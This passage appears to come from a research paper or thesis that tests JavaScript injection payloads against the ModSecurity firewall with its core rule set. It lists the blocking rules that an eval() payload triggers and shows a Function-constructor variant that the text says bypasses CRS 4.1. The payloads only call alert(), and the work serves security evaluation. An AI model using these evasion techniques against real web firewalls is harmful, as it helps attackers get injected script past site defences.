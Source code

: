 \begin{lstlisting}[style=basicStyle, language=Python]
eval('alert' + '(`concatenation`)')
\end{lstlisting}

When sent in a request directed to the test Web server protected by the evaluted Web application firewall, this payload triggers the following blocking firewall rules:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=eval() blocked, label={lst:evalblocked}]
<payload>"eval('alert' + '(`concatenation`)')"</payload>

<message>"PHP Injection Attack: High-Risk PHP Function Call Found"</message>
<file>"/rules/REQUEST-933-APPLICATION-ATTACK-PHP.conf"</file>
<fileDetails>[line "331"] [id "933160"]<fileDetails>
<MatchedData>"eval('alert'   '(`concatenation`)')"</MatchedData>

<message>"Node.js Injection Attack 1/2"</message>
<file>"/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
<fileDetails>[line "52"] [id "934100"]<fileDetails>
<MatchedData>"eval("</MatchedData>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-933-APPLICATION-ATTACK-PHP.conf"</file>
<fileDetails>[line "748"] [id "941390"]<fileDetails>
<MatchedData>"eval("</MatchedData>
\end{lstlisting}

It is apparent, that usage of the \verb|eval()| function is heavily blacklisted. Therefore, \verb|eval()| has been substituted by the function constructor in order to obscure the payload:

\begin{lstlisting}[style=basicStyle, language=Python]
[].constructor.constructor('alert' + '(`concatenation`)')()
\end{lstlisting}

The obscured payload successfully bypasses the ModSecurity firewall using CRS4.1.

\subsubsection{Square bracket notation}
As stated under Section~\ref{sec:sbn}, the square bracket notation can be used to substitute the dot notation in order to access object properties. When using the Function constructor as mentioned under Section~\ref{sec:functionconstructor}, access to object properties is neccessary. Using the square bracket notation in such a case is standing to reason. 

